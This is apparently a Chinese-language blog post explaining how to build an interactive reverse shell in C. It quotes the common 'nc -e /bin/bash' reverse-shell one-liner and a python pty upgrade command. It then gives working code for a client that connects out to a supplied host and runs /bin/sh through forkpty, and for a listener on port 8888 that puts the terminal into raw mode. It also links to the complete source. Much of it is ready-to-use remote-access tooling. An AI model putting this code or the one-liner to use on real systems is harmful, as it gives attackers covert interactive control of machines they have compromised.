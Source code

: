+++
title = "写一个可交互的反弹 Shell"
date = 2022-05-02T19:19:57+08:00
[taxonomies]
tags = ["linux"]
+++

在网上能看到一堆的反弹 Shell 方法，最常见的就是先用 `nc -e /bin/bash $控制机IP $控制机端口` 弹出一个 Shell，然后再用 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 这样来升级成交互式 Shell。这样的话得保证环境里有 nc + python，或者得在被控机上下载多个文件。这样的话，还不如直接自己写一个 Shell 呢 233。

## “可交互 Shell” 的原理

现在常见的“终端模拟器”，例如 KDE 的 Konsole, MACos 上的 iterm，服务器上的 SSH，都是使用 "pty" 来实现的。而我们反弹的 Shell 则不一样，所以无法交互。

而 pty 则是模拟终端的设备。平时使用的终端模拟器是和 pty master 进行沟通，而里面的 shell 是和 pty slave 进行沟通，两者通过 pty 进行沟通。

```txt
终端模拟器 <=> | pty master | pty | pty slave | <=> shell
```

所以我们的实现也很简单，通过 socket 将被控端的 master 和控制端连接起来就好了。

```txt
终端模拟器 <=> 控制端 <=(socket 通信)=> 被控端 <=> | pty master | pty | pty slave | <=> shell
```

## 代码实现

首先是导入相关文件，"pty.h" 包含 pty 相关函数的定义，而 "select.h" 则是用来处理异步通信的。

```c
#include <pty.h>
#include <sys/select.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"
```

被控端代码很简单，通过传入的 `host` 和 `port` 创建 socket 连接，然后通过 `forkpty` 创建 pty，在父进程中进行 socket 和子进程中的通信。

需要注意的是 `forkpty` 函数，在 FreeBSD 的 `man` 手册的说明如下

```txt
The  forkpty()  function  combines  openpty(),  fork(2),  and  login_tty() to create a new
process operating in a pseudoterminal.  A file descriptor referring to master side of  the
pseudoterminal  is  returned  in amaster.  If name is not NULL, the buffer it points to is
used to return the filename of the slave.  The termp and winp arguments, if not NULL, will
determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

简单翻译就是创建一对 pty，并且 fork 出子进程，然后将 master fd 和 pty 连接起来，将子进程的输入和输出和 slave fd 连接起来。这样的话，父进程只要通过 master fd 就可以和处于 pty slave 处的子进程进行沟通。

```c
int main(int argc, char **argv, char **envp) {
  if (argc < 3) {
    printf("Usage: %s [host] [port]\n", argv[0]);
    return -1;
  }
  int port = atoi(argv[2]);
  int socket_fd = 0, master_fd = 0;
  if ((socket_fd = get_socket_connect(argv[1], port)) <= 0) {
    return -2;
  }
  // Use forkpty to handle communication between pty master and socket
  int pid = forkpty(&master_fd, NULL, NULL, NULL);
  if (pid < 0) {
    return -3;
  } else if (pid != 0) {
    // Parent
    copy_loop(master_fd, socket_fd);
  } else {
    // Child
    execve("/bin/sh", NULL, NULL);
    exit(0);
  }
  return 0;
}
```

下面的代码则是在两个 fd 之间互相复制内容。通过 `select` 函数判断哪个 fd 可读，然后将可读 fd 里的内容输出到另一个 fd 里。

```c
static int copy_loop(int fd1, int fd2) {
  plog("%d, %d", fd1, fd2);
  for (;;) {
    fd_set set;
    FD_ZERO(&set);
    FD_SET(fd1, &set);
    FD_SET(fd2, &set);
    if (select(max(fd1, fd2) + 1, &set, NULL, NULL, NULL) <= 0) {
      return -2;
    }
    int read_fd = 0, write_fd = 0;
    if (FD_ISSET(fd1, &set)) {
      read_fd = fd1;
      write_fd = fd2;
    } else if (FD_ISSET(fd2, &set)) {
      read_fd = fd2;
      write_fd = fd1;
    }
    int read_bytes = copy_data(read_fd, write_fd);
    if (read_bytes < 0) {
      return read_bytes;
    }
  }
}
```

而控制端的代码看起来会比较奇怪。首先是打开了 `/proc/self/fd/0`，可以看到这是指向了 `/dev/pts/1`，即打开当前的 pty。

```bash
~/d/chenx6.github.io > ls -la /proc/self/fd
总用量 0
dr-x------ 2 chenx chenx  0  5月  2 19:47 .
dr-xr-xr-x 9 chenx chenx  0  5月  2 19:47 ..
lrwx------ 1 chenx chenx 64  5月  2 19:47 0 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 1 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 2 -> /dev/pts/1
lr-x------ 1 chenx chenx 64  5月  2 19:47 3 -> /proc/1091/fd
lr-x------ 1 chenx chenx 64  5月  2 19:47 51 -> anon_inode:inotify
```

然后是终端的设置。对 `c_lflag` 本地模式进行设置，设置为不回显，uncanonical mode。然后是对 `c_cc` 特殊字符设置不处理 ”^C / ^Z / ^\“。

最后就是创建 socket 连接，复制数据(和被控端类似，区别请见末尾的文件)。当复制结束时则恢复回原本的终端设置。

```c
#include <arpa/inet.h>
#include <fcntl.h>
#include <pty.h>
#include <sys/select.h>
#include <sys/types.h>
#include <termios.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"

int main() {
  // PTY
  int pty_fd = open("/proc/self/fd/0", O_RDWR);
  struct termios terminal, origin_terminal;
  tcgetattr(pty_fd, &terminal);
  origin_terminal = terminal;
  // turn off echo, uncanonical mode
  terminal.c_lflag &= ~ECHO;
  terminal.c_lflag &= ~ICANON;
  // Don't handle ^C / ^Z / ^\
  terminal.c_cc[VINTR] = 0;
  terminal.c_cc[VQUIT] = 0;
  terminal.c_cc[VSUSP] = 0;
  tcsetattr(pty_fd, TCSANOW, &terminal);

  // Socket
  int listen_fd = get_socket_listen("0.0.0.0", 8888);
  socklen_t s;
  struct sockaddr accepted_addr;
  int accepted_fd = accept(listen_fd, &accepted_addr, &s);
  copy_loop(accepted_fd);
  tcsetattr(pty_fd, TCSANOW, &origin_terminal);
  return 0;
}
```

可以看到，很少的代码就能创建一个交互式反弹 Shell，还能复习 UNIX 知识。

完整代码在这：<https://github.com/chenx6/gadget/tree/master/rev_pty>

## Refs

- 基于原本的项目，魔改了下，兼容 Python3 <https://github.com/chenx6/python-pty-shells>
- [pseudo-terminal 基础一](https://segmentfault.com/a/1190000019747315)
- [linux select函数解析以及事例](https://zhuanlan.zhihu.com/p/57518857)
